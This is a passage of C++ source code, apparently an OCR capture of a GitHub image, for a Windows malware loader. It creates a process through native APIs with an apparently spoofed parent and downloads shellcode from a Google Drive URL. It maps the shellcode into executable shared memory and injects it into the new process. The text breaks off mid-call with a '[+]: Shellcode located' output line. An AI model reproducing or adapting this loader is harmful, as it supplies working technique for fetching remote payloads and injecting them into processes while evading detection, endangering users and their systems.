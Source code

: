 ```
		AttributeList->Attributes[5].ValuePtr = hParent;
	}
	else
	{
		AttributeList->TotalLength -= sizeof(PS_ATTRIBUTE);
	}
	

	/* Process Injection */

	// Create the process
	HANDLE ntHandle = NULL, ntThread = NULL;
	ntCreateUserProcess(&ntHandle, &ntThread, MAXIMUM_ALLOWED, MAXIMUM_ALLOWED, &objAttr, &objAttr, 0x00000200, 0x00000001, ProcessParameters, &CreateInfo, AttributeList);

	// download shellcode
	std::vector<BYTE> shellcode = Download(L"www.drive.google.com\0", L"/u/5/uc?id=1WUDbPX-v47lxMcE0e9K_Uqk6G83AZa5_&export=download\0");

	// create section in local process
	HANDLE localSection;
	LARGE_INTEGER localszSection = { shellcode.size() };

	NTSTATUS status = ntCreateSection(
		&localSection,
		SECTION_ALL_ACCESS,
		NULL,
		&localszSection,
		PAGE_EXECUTE_READWRITE,
		SEC_COMMIT,
		NULL);

	// map section into memory of local process
	PVOID hLocalAddress = NULL;
	SIZE_T viewSize = 0;

	status = ntMapViewOfSection(
		localSection,
		GetCurrentProcess(),
		&hLocalAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);

	// copy shellcode into local memory
	RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());

	// map section into memory of remote process
	PVOID hRemoteAddress = NULL;

	status = ntMapViewOfSection(
		localSection,
		ntHandle,
		&hRemoteAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
```

[+]: Shellcode located at c7160